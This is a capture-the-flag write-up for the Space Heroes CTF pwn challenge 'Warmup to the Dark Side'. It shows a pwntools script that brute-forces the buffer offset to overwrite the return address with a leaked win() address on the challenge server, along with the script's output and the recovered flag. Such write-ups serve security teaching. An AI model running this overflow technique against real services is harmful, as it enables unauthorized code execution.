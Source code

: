 ```yaml
---
title: "shctf/pwn: Warmup to the Dark Side"
date: 2022-04-05 15:57:40
categories:
- ctfs
- shctf
- pwn
tags:
- pwn
- buffer-overflow
description: "Learn how to stack smash an ASLR-enabled program... without the binary! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Warmup to the Dark Side\"."
permalink: ctfs/shctf/pwn/warmup-to-the-dark-side/
thumbnail: /asset/banner/banner-darkside.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
</style>

<div class="box">
    Once you start down the dark path, forever will it dominate your destiny.<br>
    (And yes, the binary isn't included)<br>
    <code>nc 0.cloud.chals.io 30096</code><br>
    <b>Author</b>: v10l3nt
</div>

Let's run that `netcat` link to see what's going on:

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">nc 0.cloud.chals.io 30096</span></span><br><span class="line">The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c</span><br><span class="line">Jedi Mind tricks dont work on me &gt;&gt;&gt; </span><br></pre>
            </td>
        </tr>
    </table>
</figure>

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

<figure class="highlight py">
    <figcaption><span>warmup-to-the-dark-side.py</span><a target="_blank" rel="noopener"
      href="https://gist.github.com/jktrn/dd861b378b859a0588b48c71ad9fbf45"><span style="color:#82C4E4">[github gist link]</span></a></figcaption>
    <table>
        <tr>
            <td class="gutter">
                <pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre>
            </td>
            <td class="code">
                <pre><span class="line"><span class="keyword">from</span> pwn <span class="keyword">import</span> *</span><br><span class="line"></span><br><span class="line"><span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">32</span>,<span class="number">128</span>):</span><br><span class="line">        p = remote(<span class="string">&quot;0.cloud.chals.io&quot;</span>, <span class="number">30096</span>)</span><br><span class="line">        address = p.readlineS()[<span class="number">112</span>:<span class="number">126</span>]</span><br><span class="line">        log.info(<span class="string">&quot;Trying offset &quot;</span> + <span class="built_in">str</span>(i) + <span class="string">&quot; for address &quot;</span> + address)</span><br><span class="line">        p.sendline(<span class="string">b&#x27;A&#x27;</span>*i + p64(<span class="built_in">int</span>(address, base=<span class="number">16</span>)))</span><br><span class="line">        output = p.recvallS()</span><br><span class="line">        <span class="keyword">if</span> <span class="string">&quot;shctf&quot;</span> <span class="keyword">in</span> output:</span><br><span class="line">                log.success(output)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">        p.close()</span><br></pre>
            </td>
        </tr>
    </table>
</figure>

Let's run this script on the server to see if we can get the flag:

<figure class="highlight text">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line">...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 37 for address 0x55f788f1120c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 38 for address 0x5631d523620c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 39 for address 0x55980d2d520c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 40 for address 0x55f0008b520c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (95B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Jedi Mind tricks dont work on me &gt;&gt;&gt; </span><br><span class="line">    shctf&#123;I_will_remov3_th3s3_restraints_and_leave_the_c3ll&#125;</span><br></pre>
            </td>
        </tr>
    </table>
</figure>


<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
